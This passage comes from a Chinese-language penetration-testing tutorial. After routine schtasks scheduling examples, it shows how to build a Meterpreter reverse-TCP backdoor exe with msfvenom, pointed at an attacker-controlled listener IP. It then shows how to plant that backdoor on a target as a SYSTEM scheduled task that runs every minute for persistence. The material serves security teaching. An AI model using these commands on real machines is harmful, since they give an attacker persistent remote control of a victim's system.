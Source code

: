    ```cmd
   schtasks /create /tn "WeeklyScript" /tr "C:\Scripts\script.bat" /sc weekly /d MON,TUE,WED,THU,FRI /st 09:00
   ```

3. 每月 1 号和 15 号上午 10:00 运行 `C:\Scripts\script.bat`：

   ```cmd
   schtasks /create /tn "MonthlyScript" /tr "C:\Scripts\script.bat" /sc monthly /d 1,15 /st 10:00
   ```



##### 利用MSF生成一个exe类型的后门

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.226.131 lport=8888 -f exe -o wxiaoge.exe 
#lhost是我们的主机ip，lport是我们主机的用于监听的端口
```

![image-20240526000515543](./assets/image-20240526000515543.png)

###### 创建计划任务

将生成的后门木马 wxiaoge.exe 上传到目标机内，然后在目标机内执行以下指令，创建一个wixoage计划任务，每一分钟执行一次wxiaoge.exe。

```cmd
schtasks /create /tn wxiaoge /sc minute /mo 1/tr C:\Users\Administrator\Desktop\wxiaoge.exe /ru system /f
#schtasks
```

![image-20240526000558444](./assets/image-20240526000558444.png)

![image-20240525235714342](./assets/image-20240525235714342.png)
